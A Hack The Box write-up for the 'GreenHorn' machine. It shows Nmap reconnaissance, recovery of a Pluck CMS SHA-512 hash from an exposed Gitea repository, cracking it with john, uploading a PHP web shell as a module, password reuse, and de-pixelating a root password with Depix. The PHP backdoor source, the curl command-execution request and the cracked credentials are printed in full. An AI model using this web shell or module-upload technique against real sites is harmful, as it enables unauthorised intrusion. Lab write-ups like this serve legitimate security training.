





# GreenHorn



GreenHorn is an easy Linux Hack The Box machine that starts with exposed source code in Gitea, continues with credential recovery for Pluck CMS, and ends with password de-pixelation to recover a root credential.

## Reconnaissance

An initial Nmap scan revealed SSH on port 22, HTTP on port 80, and a Gitea instance on port 3000.

```text
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
|_http-generator: pluck 4.7.18
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/data/ /docs/
3000/tcp open  ppp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.0 200 OK
|     Set-Cookie: i_like_gitea=a369dd4c46df0c66; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=orpBKwMvOqd1cNRHXQEQ4_fni7o6MTcyMTUwMjYxMjU5NTk0MTM2OA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     ...
```

The website on port 80 was powered by Pluck CMS 4.7.18, and the service on port 3000 was a Gitea installation.

## Web Enumeration

The main page loaded a simple Pluck CMS website with a couple of posts and very little useful information. The source confirmed that the site was running Pluck CMS, and the login route was present on the usual admin page.



The Gitea instance had repository browsing enabled, so I checked the public repositories. One repository under `GreenAdmin` contained the site source for the Pluck deployment.

## Source Comparison

Because Pluck CMS is open source, I cloned the upstream project and compared it to the repository exposed in Gitea.



```bash
git clone https://github.com/pluck-cms/pluck pluck
git clone http://greenhorn.htb:3000/GreenAdmin/GreenHorn greenhorn
diff --brief --recursive greenhorn pluck
```

That comparison showed several extra files only present in the GreenHorn deployment:

```text
Only in greenhorn/data/settings: options.php
Only in greenhorn/data/settings: pages
Only in greenhorn/data/settings: pass.php
Only in greenhorn/data/settings: themepref.php
Only in greenhorn/data/settings: token.php
Only in greenhorn/data/settings: update_lastcheck.php
```

The files `pass.php` and `token.php` stood out immediately, since they looked like they could contain login material.

## Credential Recovery

The `pass.php` file contained a 128-character hash, which suggested SHA-512.

```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

The `token.php` file also contained a long random value:

```php
<?php $token = '65c1e5cf86b4d727962672211b91924b828a0c05ece3954c75e3befa6b361fa3eb28c407f7101bc4eae2c604c96c641575c7fe82dbdc6ce0cf7d4a006f53bac7'; ?>
```

Looking at `data/login.php` showed that the password was checked by hashing the submitted value with SHA-512 and comparing it to `$ww`.

```php
require_once 'data/settings/pass.php';
require_once 'data/settings/token.php';

if (($pass == $ww) && (!isset($login_error))) {
    $_SESSION[$token] = 'pluck_loggedin';
}
```

Cracking the SHA-512 hash with `john` and `rockyou.txt` revealed the password `iloveyou1`.

```text
iloveyou1        (?)
```

With that password, I was able to log in to Pluck CMS.

## Module Upload

Pluck allows modules to be uploaded as zipped packages, so I created a small PHP backdoor and packed it as a module here is a simple upload : https://github.com/pluck-cms/simple

```php
<?php
if(isset($_REQUEST['9e6e246c78abe1e6e94be598f6b6ab1a'])){
    $cmd = ($_REQUEST['9e6e246c78abe1e6e94be598f6b6ab1a']);
    system($cmd);
    die;
}
?>
```
also you can use as this as a script for this : https://github.com/0xDTC/Pluck-CMS-v4.7.18-Remote-Code-Execution-CVE-2023-50564

I zipped the file and uploaded it through **Options → Manage modules → Install a module**.



```bash
zip deadbeef.zip deadbeef.php
```

The module installed successfully, but it did not show up in the module list because it lacked the proper metadata. Even so, the file was reachable directly under `/data/modules/deadbeef/deadbeef.php`.

A quick test confirmed command execution:

```bash
curl "http://greenhorn.htb/data/modules/deadbeef/deadbeef.php?9e6e246c78abe1e6e94be598f6b6ab1a=whoami"
```

```text
www-data
```

That gave me a foothold as `www-data`.

## User Escalation

The box had three users with login shells: `root`, `git`, and `junior`. Since the blog credentials were reused, I tried `iloveyou1` for `junior`, and that worked.

That gave me access to the first user account and the initial flag.

SSH password authentication was disabled, but I could still log in by adding my public key to `~junior/.ssh/authorized_keys`.

The `junior` account could not use sudo, but there was an interesting PDF in the home directory named `Using OpenVAS.pdf`. I copied it back to my machine for analysis.

## Root Access

```bash
scp -i ~/.ssh/ctf junior@greenhorn.htb:'Using OpenVAS.pdf' .
```

The PDF contained instructions for running OpenVAS and included a pixelated password image. Because pixelation is reversible in many cases, I extracted the image and attempted reconstruction using **Depix** https://github.com/spipm/Depixelization_poc	.



```bash
git clone https://github.com/spipm/Depix
cd Depix
python3 depix.py -p extracted.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
```

Depix eventually recovered readable text from the image:

```text
sidefromsidetheothersidesidefromsidetheotherside
```

That revealed the password needed for escalation to root.

Using the recovered password, I switched to root and read the final flag.

## Attack Path

- Enumerate SSH, HTTP, and Gitea.
- Identify Pluck CMS and the public GreenHorn repository.
- Compare the repository with upstream Pluck CMS.
- Recover the Pluck admin password hash from `data/settings/pass.php`.
- Crack the SHA-512 hash with `john`.
- Log in to Pluck CMS and upload a malicious module.
- Trigger the PHP backdoor and gain a `www-data` shell.
- Reuse credentials for `junior`.
- Extract the pixelated password from the PDF.
- Recover the plaintext using Depix.
- Escalate to root and read the final flag.
